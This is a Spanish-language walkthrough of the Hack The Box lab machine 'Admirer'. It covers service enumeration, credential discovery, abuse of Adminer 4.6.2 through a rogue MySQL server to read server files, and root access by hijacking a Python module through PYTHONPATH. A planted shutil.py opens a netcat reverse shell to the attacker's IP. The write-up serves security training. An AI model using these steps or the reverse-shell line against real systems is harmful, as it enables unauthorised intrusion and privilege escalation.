


# Admirer WriteUp
Volver al [Indice](README.md)

Comenzamos con la segunda máquina de HTB, en este caso como acaba de ser retirada, les traigo la máquina "Admirer", ha sido creada por "polarbearer & GibParadox", cuenta con una dificultad de 5.3 sobre 10, por lo que se encuentra en el rango de "Medium" y tiene una puntuación de 3.4 sobre 5.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------
## *# Enumeración*  
Como normalmente, vamos a lanzar un nmap a los 65535 puertos para enumerar rápidamente los servicios de la máquina.


Después vamos a lanzar otro nmap para verificar los servicios y la versión de estos.


Vemos que tiene:
* Puerto 21 => un FTP (pero sin acceso anónimo habilitado).
* Puerto 22 => Encontramos el servicio SSH (pero se encuentra en una versión en la que no podemos explotar prácticamente nada, así que no vamos a  buscar ningún exploit).
* Puerto 80 => Con un apache (Al acceder a él solo vemos la página inicial).

Viendo esto, vamos a lanzar la herramienta dirsearch en búsqueda de directorios. Nos encuentra simplemente el directorio **"robots.txt"** de interés.


Accedemos al directorio robots y encontramos que existe un directorio llamado "admin-dir" el cual parece basante interesante.

Lo colocamos a ver que contiene y vemos que nos da un error 403(Forbidden).


Pero... Este error 403 no nos impide lanzar una busqueda con dirsearch a ese directorio... Si encontramos algo podríamos acceder a el saltándonos este error.


¡Perfecto!, hemos encontrado 2 directorios con código 200, descargamos los ficheros y encontramos las credenciales para acceder al FTP.


Accedemos al FTP y encontramos 2 ficheros (uno contiene un dump de la BD y el otro un archivo comprimido).


En el archivo **"dump.sql"** no encontramos nada pero al descomprimir el otro archivo encontramos varios directorios que parecen un backup de la web.

Entre ellos hay un directorio al que podemos acceder vía web con varios scripts, pero no contienen nada lo suficientemente relevante.

Lanzamos una búsqueda con dirsearch a este directorio y nos encuentra un archivo el cual nos lleva a una aplicación web para conectar con una base de datos. 

Probamos credenciales por defecto y otras que hemos encontrado en alguno de los archivos anteriores descomprimidos pero no tenemos acceso.


Comprobamos en Google si encontramos alguna vulnerabilidad y/o exploit para esta aplicación (Adminer 4.6.2) y **¡BIEN!**, existe una vulnerabilidad para poder acceder a ella sin credenciales.  
Creando una base de datos localmente y accediendo a ella a través de esta aplicación podríamos visualizar el contenido.

Dejo el enlace a la página donde encontré la vulnerabilidad: [https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)

## *# Explotación*
Dejo por aquí los pasos que he seguido para crear la base de datos en mi equipo, decir que si vosotros no usáis las mismas versiones o aplicaciones que yo pueden variar:
* CREATE DATABASE admirer;
* CREATE USER 'borb3d'@'%' IDENTIFIED BY 'borb3d';
* GRANT ALL PRIVILEGES ON * . * TO 'borb3d'@'%';
* FLUSH PRIVILEGES;
* use admirer;
* create table test(data VARCHAR(255));
* En el archivo "/etc/mysql/mariadb.conf.d/50-server.cnf" debemos de añadir la línea "bind-address      =0.0.0.0"
* Reiniciamos el servicio (systemctl restart mysql)




Con esto ya podríamos volver a la aplicación web y acceder con nuestros datos.


Y ¡estamos dentro!


Ya dentro de la aplicación, accedemos al apartado "Comando SQL" para poder ejecutar nuestra consulta y ver datos que no se deberían ver.

En este apartado lanzamos la siguiente consulta:
> load data local infile '../index.php'
> into table test
> fileds terminated by "/n"


Después de esto solo tenemos que ir a la pestaña "registros", a la izquierda, para poder visualizar nuestra consulta.


Ya tenemos las credenciales, vamos a probar con el servicio SSH por si han reutilizado las contraseñas.

Y parece que **SI**, conseguimos conectarnos al servidor como el usuario "Waldo", cogemos la flag de user y seguimos.


## *# Post-Explotación*
Vamos a ver como podríamos escalar privilegios por aquí.  
Como siempre, vamos a probar con el comando sudo -l para ver que privilegios tenemos como ROOT, y vemos que poseemos este privilegio.  
```(ALL) SETENV: /opt/scripts/admin_tasks.sh```


Examinamos a fondo ese script y vemos que está todo correcto en cuanto a rutas absolutas a los binarios... Pero vemos que en una de las funciones llama a un archivo python del mismo directorio, así que lo revisamos también.



Vemos que el archivo llama a una librería, vamos a intentar falsear la ruta de la libreria con PYTHONPATH.


Para comenzar, vamos a elegir un directorio en el que tengamos permiso de escritura para realizar nuestro script, "/tmp" por ejemplo.  
* Dentro creamos un archivo llamado shutil.py (que es el nombre del módulo que vamos a falsear).
* En el archivo colocamos el código que queramos ejecutar como ROOT (en mi caso, una Reverse Shell) <Debemos mantener la estructura del archivo original(su función con sus parámetros para que no nos de error)>.  

 ~~~
import os  # importamos la librería que vamos a utilizar

def make_archive(a, b, c):  # Definimos la función que llama el script original (manteniendo las 3 variables para que no haya error)
    os.system("nc 10.10.15.81 4444 -e '/bin/sh'")  # Le mandamos nuestra reverse shell para que la ejecute
~~~


Abrimos otra consola y la dejamos en escucha por el puerto que colocamos anteriormente (en mi caso 4444).

Lanzamos el comando ```'sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh 6'``` (para que nos coja la ruta de nuestra librería falsa en lugar de la original y poder falsearlo) y le pasamos el parámetro 6 que sería el que ejecuta el script de python (se puede lanzar directamente o después).


y...¡Somos ROOT!
